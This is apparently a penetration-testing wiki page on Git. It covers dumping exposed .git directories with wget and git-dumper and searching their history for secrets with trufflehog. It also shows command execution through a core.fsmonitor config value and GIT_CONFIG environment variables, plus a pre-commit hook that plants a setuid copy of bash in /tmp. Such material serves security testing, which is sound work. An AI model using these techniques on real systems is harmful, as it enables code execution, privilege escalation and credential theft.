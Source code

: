 ```yaml
---
description: >-
  A version control system often saving lots of information about how files were
  changes
---
```


# Git

## Description

Git is a version control system that allows you to save the state of files. It is often used with source code and published on [Github](https://github.com/). There are a few keywords that Git uses you need to know to understand the terminology:

* **Repositories**: The entirety of your git system, with the files, history, and information. Can be created using `git init`
* **Commits**: "Save states" of the files in your repository. Whenever you change something and you are happy with the change, you can commit it so it's saved as a snapshot that you can later go back to. Can be created using `git commit -m "message"`
* **Branches**: Parallel to your main repository, branches are sidesteps to slowly work on a new feature for example, and then later in time **merge** it into the main branch. Can be created using `git checkout -b newfeature`

All the information about your Git repository gets saved in a `.git` directory that is at the root of your repository. The `git` command interacts with this directory and lots of tools can get information from it. So if you ever find a `.git` directory you'll know the current directory is a Git repository.&#x20;

To find everything in a repository without having to think of every command, you can use a tool like [GitKraken](https://www.gitkraken.com/) to explore the repository visually. Just open the directory in that tool and you can see a timeline of what commits and branches were made.&#x20;

## Finding Git on websites

In some cases, you'll find that the website you're testing uses Git by finding a `.git` directory. Normally this should be hidden by a 403 Forbidden for example, but this is not always the case. Sometimes you can see a list of files, or you can directly access `.git/HEAD` instead.&#x20;

### Web - Directory Listing

When you visit the `.git` directory on the website, and you can see a list of files relating to git, you know that directory listing is on. This makes it really easy to download everything at once recursively and then examine the repository on your own machine.&#x20;

```shell-session
$ wget -r http://example.com/.git
```

#### Git-dumper

When a website disables directory listing, but the `.git` directory can still be found with something like `.git/HEAD`, you might be able to use [git-dumper](https://github.com/arthaud/git-dumper) on it to extract all the files without having the need for directory listing. This tool understands the Git file structure and can find all the related files:

{% embed url="https://github.com/arthaud/git-dumper" %}
A tool to dump a git repository to your local machine, without needing directory listing
{% endembed %}

```shell-session
$ pip install git-dumper
$ git-dumper http://example.com/.git git/
```

Then use the source code to perform more targeted attacks, or look for secrets, even in history:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ git log -p  # Show commits with diffs
</strong>...
+++ b/secret.py
@@ -0,0 +1,85 @@
+access_key_id = "AKIA6CFMOGSLALOPETMB"
+secret_access_key = "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"
+region = "us-east-2"
...
<strong>$ git branch -a  # List all branches
</strong>* master
  development
</code></pre>

The [`trufflehog`](https://github.com/trufflesecurity/trufflehog) tool can also be useful for large repositories where manually searching would take too long. It has a few built-in formats for credentials like private keys or AWS secrets. Run it locally on a cloned repository like this:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ trufflehog git file://.
</strong>Found unverified result 🐷🔑❓
Detector Type: PrivateKey
Raw result: -----BEGIN RSA PRIVATE KEY-----
...
-----END RSA PRIVATE KEY-----
Line: 1
Commit: cb137d3139ab74d7ef5c4460f41c95d89fe3e514
File: id_rsa
Email: root@example.com
# # Or on a remote GitHub URL
<strong>$ trufflehog git https://github.com/trufflesecurity/test_keys
</strong># # Check out GitHub README for more examples
</code></pre>

{% hint style="info" %}
**Tip**: The `.git/config` file may not be cloned, but if found locally, can contain git credentials used to push and pull to a remote origin. These may be re-used elsewhere or allow you to explore more of the remote git origin.
{% endhint %}

## Attacking Git Commands (RCE)

Git is a very flexible system, allowing many settings to be changed to decide how CLI tools interact with the repository. These configuration variables can allow executing arbitrary commands however when certain git commands are executed. The `core.fsmonitor` variable in `.git/config` is a common one that can be set to a bash command to execute:

{% code title=".git/config" %}
```diff
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
+       fsmonitor = "id | tee /tmp/pwned > /dev/tty"
```
{% endcode %}

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ git status
</strong>uid=1001(user) gid=1001(user) groups=1001(user)
...
</code></pre>

Many shell extensions like [Starship](https://github.com/starship/starship/issues/3974) use `git` to get the current repository and are vulnerable to this, as well as [Visual Studio Code](https://www.sonarsource.com/blog/securing-developer-tools-git-integrations/#example-of-affected-ide-visual-studio-code) (now only with Trusted Mode). To find such issues, you can create a malicious repository with as many landmines as possible that trigger on different commands. This creates an empty repository with most known ways to execute commands:

{% embed url="https://github.com/jwilk/git-landmine" %}
Create a repository with `.git/config` and `hooks` GIT landmines (`lib/payload` = payload)
{% endembed %}

This same config variable can be set via environment variables:

```bash
export GIT_CONFIG_COUNT=1
export GIT_CONFIG_KEY_0=core.fsmonitor
export GIT_CONFIG_VALUE_0="id | tee /tmp/pwned > /dev/tty"
git status
```

### Git Hooks

There is another feature called "hooks" that allow you to run bash scripts when a certain action happens with the repository. When a `git commit` is executed, for example, the `pre-commit` hook gets triggered. If you can write these hooks you can let whoever runs the `git commit` execute arbitrary commands.&#x20;

You can find these hooks in the `.git/hooks` directory. If you are able to write a `pre-commit` file here, you can put any executable file in its place and it will be run on commit:

{% code title=".git/hooks/pre-commit" %}
```bash
#!/bin/bash
cp /bin/bash /tmp/bash; chmod +xs /tmp/bash
```
{% endcode %}

Then just make sure the file is actually executable with `chmod`:

```shell-session
$ chmod +x pre-commit
```

## Git Snippets

If you're running a git repository, you might need some complicated actions from time to time. This is a collection of some common actions as commands to quickly copy and paste.&#x20;

{% code title="Push to remote origin" %}
```shell-session
$ git remote add origin https://github.com/[username]/[repository].git
$ git branch -M main  # Switch to main branch for GitHub
$ git push --set-upstream origin main  # Set the default upstream

$ git push  # From now on, you can just push
```
{% endcode %}

{% code title="Reset all commits" %}
```shell-session
$ rm -rf .git
$ git init
$ git commit -m "Initial commit"
$ git push --force  # Force to overwrite existing remote
```
{% endcode %}

{% code title="Undo last commit" %}
```shell-session
# # If not pushed yet
$ git reset --soft HEAD~
# # If already pushed
$ git reset HEAD~  # Use --hard to also throw away the changes in the commit
$ git push --force
```
{% endcode %}

{% code title="Create and push tag" %}
```shell-session
$ git tag 0.1.0
$ git push origin --tags  # Push all tags
# # More info: https://stackoverflow.com/a/18223354/10508498
```
{% endcode %}
